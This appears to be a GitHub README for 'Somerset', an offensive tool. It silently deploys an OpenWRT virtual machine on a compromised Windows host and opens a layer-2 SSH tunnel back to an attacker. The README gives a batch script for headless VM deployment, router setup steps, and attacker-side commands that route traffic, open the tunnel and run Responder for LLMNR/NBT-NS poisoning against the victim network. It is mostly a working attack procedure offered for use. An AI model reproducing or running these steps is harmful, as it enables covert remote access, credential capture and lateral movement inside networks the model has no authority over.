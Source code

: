 # Somerset: Offensive Router for Windows Pivoting

Somerset - is a small **ash** script to prepare OpenWRT for an L2 VPN SSH tunnel for post-exploitation against Windows

![](/poc-images/somerset-cover.png)

> Cover

# Scenario

This is a very specific vector of pivoting, which is a quiet installation of VirtualBox on compromised Windows. The attacker then creates a virtual machine with OpenWRT in the same quiet mode by connecting a specially prepared OpenWRT VDI disk. It is important to realize that this vector requires local administrator rights on a Windows machine.

The most important point here is for the OpenWRT interface in the Vbox to be in post mode and not have an promiscuous mode. This is necessary to initiate exactly the L2 tunnel to conduct link layer attacks, utilize Responder, and so on. This vector is good because it works from anywhere in the infrastructure, since everything will be encapsulated in the SSH tunnel.

It is important to prepare a VDI image in advance. You can convert it from `.img`, here is an example:

I used the OpenWRT image version 19.07.6:

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe convertdd "C:\openwrt\openwrt.img" "C:\openwrt\openwrt.vdi" 

Creating dynamic image with size 285736960 bytes (273MB)...
```

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe modifyhd --resize 512 "C:\openwrt\openwrt.vdi" 
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
```

![](/poc-images/research-scheme.jpg)

> Research Scheme

# SSH Dropbear Issue

By default, OpenWRT uses the dropbear implementation for SSH. It does not know how to work with SSH tunnels. Therefore, it will be replaced by `openssh-server`

# Script Mechanics

This script turns an OpenWRT router into an SSH pivoting tool. It does the following:

1) Installation of necessary packages: `ss`, `ip-full`, `kmod-tun`, `openssh-server`
2) Turns off unnecessary DNS and HTTP services, they will only interfere with the pivoting process
3) Replaces `dropbear`, changes its port to 2222, shuts down the daemon. That is, it replaces `dropbear` with `openssh-server`
4) Configuring interfaces. OpenWRT already has a `br-lan` bridge. The task is to create a tap0-interface, enable it and move it to this bridge. And also to activate the unshared mode everywhere.

You should also configure `rc.local` to get the address automatically when you start OpenWRT. This is very important when you deploy the router to a victim. You will need to find this address from the target network. You can scan port 22, since it will always be used on OpenWRT.

```
vi rc.local

udhcpc -i br-lan
echo "nameserver 8.8.8.8" > /etc/resolv.conf
```


# Silent OpenWRT Deployment

A small .bat script to automate the creation of an OpenWRT virtual machine

### wrt_vbox_deploy.bat

View the list of adapters in the system

```powershell
Get-NetAdapter
```

```powershell
@echo off

set VMNAME=Somerset
set VMMEMORY=512
set VMCPUS=1
set VMDISK=C:\openwrt\openwrt.vdi
set VMNIC1=bridged
set VMADAPTER1=" " # Specify here the interface of the real Windows operating system
set VMPROMISC1=allow-all

"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" createvm --name "%VMNAME%" --register
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --memory %VMMEMORY% --cpus %VMCPUS%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storagectl "%VMNAME%" --name "SATA Controller" --add sata --controller IntelAHCI
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storageattach "%VMNAME%" --storagectl "SATA Controller" --port 0 --device 0 --type hdd --medium "%VMDISK%"
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nic1 %VMNIC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --bridgeadapter1 %VMADAPTER1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nicpromisc1 %VMPROMISC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" startvm "%VMNAME%" --type headless
```

```powershell
C:\openwrt\wrt_vbox_deploy.bat
```

# Tunnel Init

For the script to work correctly, it must be processed for execution in the ASH shell. You need to send this ASH script to OpenWRT somehow, I don't think you'll have a problem with that. You can even use `vsftpd` for that.

```bash
cursed@kali:~$ ssh root@<OpenWRT IP>
```

```
root@OpenWrt:/# sed -i 's/\r//' somerset.ash
root@OpenWrt:/# chmod +x somerset.ash
root@OpenWrt:/# ash somerset.ash
```

You don't have to worry about silence on the OpenWRT side. It doesn't make noise on the air, it doesn't even transmit hostname via DHCP. After running the script, a tap0-interface will be prepared. Now it is the attacker's task to initiate the tunnel from his side.

## Attacker Side

It is also important to create a /32 route to the OpenWRT endpoint before initiating the SSH tunnel to avoid disconnecting the connection

```bash
cursed@kali:~$ sudo route add -net <openwrt_ip> netmask 255.255.255.255 gw <gw_ip>
```

```bash
cursed@kali:~$ sudo ssh -oHostKeyAlgorithms=+ssh-rsa -oTunnel=ethernet -w 0:0 root@<OpenWRT IP>
cursed@kali:~$ sudo ip link set tap0 up
cursed@kali:~$ sudo dhclient -v tap0; sudo route del default
cursed@kali:~$ sudo responder -I tap0 -vvv
```

# Proof of Concept (LLMNR/NBT-NS Poisoning, Scanning)

![](/poc-images/cursedpivoting-dhcpaddr.png)

> Address received

![](/poc-images/cursedpivoting-responder.png)

> LLMNR/NBT-NS Poisoning

![](/poc-images/cursedpivoting-netdiscover.png)

> ARP Scanning

# Outro

This is an extremely specific vector of pivoting, however I have proven its practicality.
